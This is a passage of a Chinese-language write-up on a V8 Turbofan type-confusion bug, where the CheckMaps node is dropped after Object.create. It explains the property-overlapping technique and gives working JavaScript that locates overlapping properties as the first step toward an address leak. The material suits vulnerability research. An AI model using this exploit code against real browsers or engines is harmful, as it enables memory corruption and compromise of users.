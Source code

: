 首先查看初始的IR图，在每一次`LoadField`之前都进行了`CheckMaps`操作。

由于`CreateObject`被定义为不写入副作用链，因此消除了冗余，`CheckMaps`节点应该不再存在。正如下图所示的simplified lowering阶段，在调用`JSCreateObject`之后的`CheckMaps`节点已被删除，直接调用`LoadField`节点。

不过在利用时，需要大量循环来调用这一函数来触发Turbofan的优化。

### 漏洞利用

现在我们有了一个可以工作的Type Confusion漏洞，该漏洞会导致V8将Dictionary当作数组访问，从而允许我们操纵对象内存布局中的函数指针和数据，但是利用的过程十分繁琐。<br/> 经过前面的分析，我们有办法可以让函数中多余的`CheckMaps`节点消失，并且能够通过`CreateObject`改变`Properties`，则很容易可以构造一种非预期情况。首先构造一个`obj`，初始化时赋予属性`a`，然后增加属性`b`，函数中首先访问`a`，通过类型检查，然后读取`x.b`，由于没有类型检查，此时返回一个与原`b`属性偏移相同的数据，但由于`Properties`发生变化，返回的数据不会再是`b`属性的值。<br/> 想要稳定利用这一漏洞，一个很大的问题在于，Dictionary内部的内存布局是随机的，不过在V8中有一规律，相同属性的`obj`，在`Dictionary`中各属性的偏移也相同。根据这一规律，我们可以使用同样的构造方式来构造具有相同属性的不同`obj`，来满足不同的需求。

#### Property Overlapping

根据上面的分析，利用这一漏洞时，访问属性`b`时会访问到一个其他的元素。我们可以利用这种property overlapping，实现类型混淆。如属性`b`是一个`Number`类型，而另一个属性是一个`Object`类型，访问属性`b`会以`Number`的方式读出`Object`的地址，造成地址泄露。如果想要控制泄露的`Object`，就需要知道另一个属性是什么。<br/> 下面是一种比较简单常用的方法，按照一定的规律进行赋值，如属性`bi`的值定义为`-i`，然后依次读取，如果读出的值与原值不同，则可以根据读出的值找到最终读出的是哪一个属性的值。

```
function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i &lt; 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i &lt; 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) =&gt; `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i &lt; 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i &lt; 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i &lt; res.length; i++) {
      if (i !== -res[i] &amp;&amp; res[i] &lt; 0 &amp;&amp; res[i] &gt; -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}
```